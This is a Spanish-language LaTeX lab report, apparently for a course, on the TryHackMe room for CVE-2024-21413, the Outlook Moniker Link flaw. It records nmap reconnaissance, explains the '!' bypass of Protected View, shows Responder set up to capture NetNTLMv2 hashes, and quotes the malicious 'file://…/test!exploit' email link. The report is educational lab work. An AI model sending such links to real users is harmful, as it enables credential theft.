\section{Inicio}
\subsection{Entorno}
Para la realización de esta práctica en la room de TryHackMe, definiremos las siguientes dos nodos principales interconectados a través de una VPN:
\begin{itemize}
	\item \textbf{Máquina atacante}: Se utilizó mi computadora personal con Fedora Linux 42. Para establecer la comunicación directa, se configuró el cliente OpenVPN, con la dirección IP virtual 192.168.134.37 a través de la interfaz \texttt{tun0}. Adicionalmente, se preparó el entorno instalando los paquetes de Python necesarios.
	\begin{itemize}
		
		\item Detectamos nuestra IP e interfaz: \texttt{ip a}
		\begin{figure}[H]
			\centering
			\vspace{-10pt}
			
\includegraphics[scale=0.35]{imagenes/Capturas/0.png}
			\vspace{-60pt}
		\end{figure}
		La interfaz nos será de utilidad más adelante.
		
		\item Nos conectamos a través de OpenVPN: \texttt{sudo openvnp <username>.ovpn}
		Mantenemos esta terminal del VPN abierta en todo el desarrollo.
		\begin{figure}[H]
			\centering
			\vspace{-20pt}
			
\includegraphics[scale=0.4]{imagenes/Capturas/1.png}
			\vspace{-40pt}
		\end{figure}
		
		\item Probamos la conexión con la máquina objetivo: \texttt{ping <IP\_OBJETIVO>}:
		\begin{figure}[H]
			\centering
			\vspace{-20pt}
			
\includegraphics[scale=0.4]{imagenes/Capturas/2.png}
			\vspace{-70pt}
		\end{figure}
		
	\end{itemize}
	
	\item \textbf{Máquina objetivo/victima}:  Esta máquina con Windows fue proporcionada por TryHackMe, con (IP 10.145.134.65) que actúa como servidor de correo e instancia de Microsoft Outlook.
	\begin{figure}[H]
		\centering
		\vspace{-10pt}
		
\includegraphics[scale=0.4]{imagenes/Capturas/3.png}
		\vspace{-30pt}
	\end{figure}
	
\end{itemize}

\subsection{Escaneo y reconocimiento}
Previo a la fase de explotación, se realizó un escaneo de red con el objetivo de mapear la superficie de ataque del servidor víctima y verificar la disponibilidad de los servicios involucrados. Se utilizó la herramienta nmap:
\begin{verbatim}
	nmap -A -p 445 10.145.134.65
\end{verbatim}
\begin{figure}[H]
	\centering
	\vspace{-10pt}
	
\includegraphics[scale=0.4]{imagenes/Capturas/5.png}
	\vspace{-40pt}
\end{figure}
Luego nos enfocamos en el puerto 445 mediante el siguiente comando:
\begin{verbatim}
	nmap -A -p 445 10.145.134.65
\end{verbatim}
\begin{figure}[H]
	\centering
	\vspace{-10pt}
	
\includegraphics[scale=0.4]{imagenes/Capturas/4.png}
	\vspace{-40pt}
\end{figure}

El escaneo confirmó que el host se encontraba activo y que el puerto 445 estaba abierto (open). Si bien las políticas de seguridad modernas de Windows bloquean las sesiones nulas, lo que impidió a nmap identificar la versión exacta del sistema operativo (microsoft-ds?),  se logró descubrir que que el servidor operaba bajo el SMB 3.1.1. Esta información fue suficiente para confirmar que el servicio de compartición de archivos y autenticación de red estaba activamente escuchando, preparando así el exploit y captura de hashes que se detalla en las siguientes secciones.

\section{Desarrollo}
\subsection{Introducción: Investigación del CVE-2024-21413}
El CVE-2024-21413 es una vulnerabilidad crítica descubierta recientemente que afecta a Microsoft Outlook. Este fallo de seguridad permite a un atacante ejecutar código de forma remota (RCE) y forzar la filtración de credenciales de autenticación del sistema. La gravedad de esta vulnerabilidad radica en su capacidad estructural para evadir uno de los mecanismos de defensa más importantes de Office: la "Vista Protegida" (Protected View). En condiciones normales, Outlook detecta enlaces externos o archivos compartidos sospechosos y los bloquea o los abre en un entorno de solo lectura. Sin embargo, esta vulnerabilidad explota una falla en cómo la aplicación procesa cierto tipo de hyperlinks, permitiendo ignorar estas alertas de seguridad y exponiendo a la víctima con una interacción mínima (hacer clic en un hipervínculo dentro de un correo electrónico).

\subsection{Moniker Link}
Para comprender el mecanismo central de esta explotación, es fundamental conocer qué es un ``Moniker''. En la arquitectura del sistema operativo Windows, un Moniker de COM (Component Object Model) es un objeto que actúa como un identificador para localizar y enlazar de forma dinámica a otro objeto, archivo o componente del sistema.\\
Normalmente un hipervínculo que apunta a un archivo en una red local utilizaría se vería de la siguiente manera:
\begin{verbatim}
	file://ATTACKER_MACHINE/test
\end{verbatim}
Cuando Outlook recibe este enlace, lo procesa con las precauciones de red correspondientes.
La vulnerabilidad se encuentra al poner deliberadamente un signo de exclamación ! al final de la ruta del archivo, similar a esta estructura:
\begin{verbatim}
	file://ATTACKER_MACHINE/test!exploit
\end{verbatim}
Al encontrar el signo !, Outlook deja de tratar la cadena como una simple ruta de archivo remota. En su lugar, el sistema lo interpreta como una llamada a un objeto COM. Al cambiar la interpretación, Outlook asume que está interactuando con un componente de software legítimo y salta por completo las verificaciones de la Vista Protegida.\\
Para instanciar este ``objeto'' solicitado en el enlace, Windows es forzado a comunicarse inmediatamente con el servidor remoto (nuestra máquina atacante) a través del protocolo SMB. El sistema intenta autenticarse en nuestro servidor falso, filtrando el hash NetNTLMv2 del usuario activo a nuestra máquina atacante.

\subsection{Explotación}
La ejecución del ataque se dividió en dos fases simultáneas: la preparación de la máquina atacante para capturar las credenciales y el envío activo del exploit mediante un script en Python.
\begin{itemize}
	\item Para capturar las credenciales de la víctima, fue necesario levantar un servidor SMB falso. Se utilizó la herramienta Responder, ejecutándola en la máquina atacante sobre la interfaz de la VPN (tun0). Responder se encarga de escuchar las peticiones de red y emular servicios legítimos de Windows:
	\begin{itemize}
		\item Clonamos el repositorio de Responder en git:
		\begin{figure}[H]
			\centering
			\vspace{-20pt}
			
\includegraphics[scale=0.33]{imagenes/Capturas/6.png}
			\vspace{-40pt}
		\end{figure}
		
		\item Levantamos el servidor SMB: \texttt{sudo python3 Responder.py -I tun0}
		\begin{figure}[H]
			\centering
			\vspace{-20pt}
			
\includegraphics[scale=0.33]{imagenes/Capturas/7.png}
			\vspace{-40pt}
		\end{figure}
	\end{itemize}
	
	\item Se utilizó el script de Python de THM y se guardo como \texttt{exploit.py}. El código crea un correo electrónico en formato HTML. El ataque reside en la inyección del Moniker Link dentro del cuerpo del mensaje: \texttt{<a href="file://192.168.134.37/test!exploit">Click me</a>}
	\begin{figure}[H]
		\centering
		\vspace{-20pt}
